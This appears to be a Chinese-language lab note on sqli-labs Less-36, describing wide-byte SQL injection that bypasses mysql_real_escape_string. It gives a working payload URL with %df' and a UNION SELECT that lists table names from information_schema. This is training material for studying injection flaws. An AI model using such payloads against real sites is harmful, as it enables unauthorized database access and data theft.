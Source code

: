 ![](file/image_281K1UaXGY.png)

### Less-36：GET - Bypass MysQL\_real\_escape\_string

**注入类型**

宽字节注入

**闭合方式**

id='\$id'

> \*\*`mysql_real_escape_string`**与**`addslashes`**的区别在于作用角色不同，并且**`mysql_real_escape_string`\*\*是MySql中的函数

```sql
http://192.168.65.128/sqli-labs/Less-36/?id=-1%df' 
union select 1,(select group_concat(table_name) from information_schema.tables where table_schema=database()),3 %23
```

![](file/image_fFQRDuwtZQ.png)
